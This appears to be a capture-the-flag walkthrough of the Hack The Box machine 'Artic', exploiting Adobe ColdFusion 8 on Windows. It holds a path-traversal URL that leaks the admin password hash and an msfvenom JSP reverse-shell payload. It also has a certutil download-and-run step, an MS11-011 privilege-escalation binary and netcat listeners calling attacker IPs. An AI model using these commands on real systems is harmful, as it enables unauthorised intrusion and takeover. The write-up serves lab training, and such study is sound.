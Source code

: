 # Artic

## Initial Nmap Scan

Initial `nmap` scan reveals the following:

```bash
nmap  -A -T4 -p-  -Pn 10.10.10.11  

PORT          STATE  SERVICE VERSION
53/tcp    closed domain
135/tcp   open   msrpc   Microsoft Windows RPC
8500/tcp  open   fmtp?
49154/tcp open   msrpc   Microsoft Windows RPC

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The only port that stands out is 8500 running fmtp. I was not able to find any notable information regarding that port on Google. However, if we run `curl` against the port we do receive a directory result.

Browse to Http://10.10.10.11:8500 in the browser:

![](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
This box is exceptionally slow and I did initially try running a directory brute force before giving up as this was only hitting a few directory attempts a minute.
{% endhint %}

After doing a Google search the directory "CFIDE" is related to Adobe Cold Fusion. If we head over to the administration login page at:

{% embed url="http://10.10.10.11:8500/CFIDE/administrator/index.cfm" %}

We can see that the version of Cold Fusion is 8. With this information lets run `Searchsploit` and see what we get:

![](<../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Looks like we have an interesting `Metasploit` module. Lets now move onto the exploitation stage and see what happens...

I did try to run this module in `Metasploit` however, i was receiving "File upload error..."

![](<../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png>)

The options to set this exploit are not very complicated with the only real variable being where to set the FCKEDITOR directory. I double checked my paths and concluded they was correct. I did not want to spend too long on something like this early on so went back to researching further on Google.

I soon came across a great link detailing a local file disclosure vulnerability in various Cold Fusion versions. [https://nets.ec/Coldfusion\_hacking](https://nets.ec/Coldfusion\_hacking)

To perform this exploit we will need to head over to Http://10.10.10.11/CFIDE/administrator/enter.cfm. Wait (patiently) for the page to load correctly. Once loaded paste the following link into the address bar:

[http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=..\\..\\..\\..\\..\\..\\..\\..\ColdFusion8\lib\password.properties%00en](http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=..\\..\\..\\..\\..\\..\\..\\..\ColdFusion8\lib\password.properties%00en)

This will disclose the hash of the administrator account as per below:

\[ Add image ]

We can take the disclosed hash \*\*2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 \*\*and run it through John the Ripper. I used the rockyou.txt wordlist and was able to extract the following information.

```bash
sudo john --wordlist=/home/kali/Desktop/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)

Session completed
```

We can head back to the Cold Fusion administrative login page and login with the credentials `Admin:happyday`

As we know Cold Fusion can serve Java files we need to generate a JSP payload. I used command below to generate the required payload.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f raw > shell.jsp
```

We will now need to start up a `Python SimpleHTTPServer` on our attacking machine so we can upload the reverse shell payload to the Cold Fusion server.

```bash
sudo Python -m SimpleHTPPServer 80
```

{% hint style="info" %}
sudo is required when trying to use ports in the range of 1-1024
{% endhint %}

Head over to the Mappings section on Cold Fusion and copy the directory path for CFIDE. We need to define where we will upload our shell.

[http://10.10.10.11:8500/CFIDE/administrator/settings/mappings.cfm](http://10.10.10.11:8500/CFIDE/administrator/settings/mappings.cfm)

![](<../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

On the left side panel on Cold Fusion head over to "Debugging & Logging > Scheduled Tasks" We are going to create a scheduled task to download the reverse shell from our attacking machine.

![](<../../../.gitbook/assets/image (7) (1) (1) (1).png>)

Give the task any name you like and set the "One-Time" occurrence to any time you like as we will be kicking this task of manually in the near future. set the URL to the IP of your VPN interface and define the name of the payload you created earlier with `msfvenom`.

Set the public checkbox and paste the drive mapping from earlier appending the end with the name of our reverse shell. Submit the task and then head back over to "Scheduled Tasks" and manually run the task.

Wait a short while and you should see in your Python server terminal activity of the server receiving a GET request for the payload. After this has been completed we can head over to the server directory again at: [http://10.10.10.11:8500/CFIDE/](http://10.10.10.11:8500/CFIDE/)

You should now see the payload we upload in this directory. Set up `netcat` to listen in on the port define the LPORT=\<port> setting you used in `msfvenom` earlier.

![](<../../../.gitbook/assets/image (8) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1).png>)

Run the payload in the directory after setting up the listener. You should now receive shell on the server.

![](<../../../.gitbook/assets/image (10) (1) (1) (1).png>)

As always the next best step is to grab the system information and run it through Windows exploit suggester. Grab system information with the `systeminfo` command:

![](<../../../.gitbook/assets/image (11) (1) (1) (1).png>)

Copy this into a text file somewhere on the attacking machine. Run an update on the Windows-Exploit-Suggester.py using the \_--update \_switch.

![](<../../../.gitbook/assets/image (12) (1) (1) (1).png>)

We can now run this against our system information text file:

![](<../../../.gitbook/assets/image (13) (1) (1) (1).png>)

The exploit we are interested in is the MS11-011 exploit which can lead to a privilege escalation. The following link below will take you to a pre-compiled exploit for MS11-011.

[https://github.com/Re4son/Chimichurri/blob/master/Chimichurri.exe](https://github.com/Re4son/Chimichurri/blob/master/Chimichurri.exe)

After downloading the file store it in a directory and run the `Python SimpleHTTPServer` as mentioned earlier. It is recommended to rename the exploit before uploading to the victim machine. After the Python HTTP server is running we can use `certutil.exe` which is built into Windows by default to download the exploit from our attacking machine onto the Windows Server.

```bash
certutil.exe -urlcache -split -f "http://0.0.0.0/exploit.exe" exploit.exe
```

![](<../../../.gitbook/assets/image (14) (1).png>)

Before executing the executable we need to set up another listener on our attacking machine:

```bash
nc -lvp 4500
```

Now on the Windows machine we can call the exploit. Using our attacking machine IP and the port number specified above as parameters.

```bash
winner.exe 10.10.14.39 4500 
```

![](<../../../.gitbook/assets/image (15) (1) (1) (1).png>)
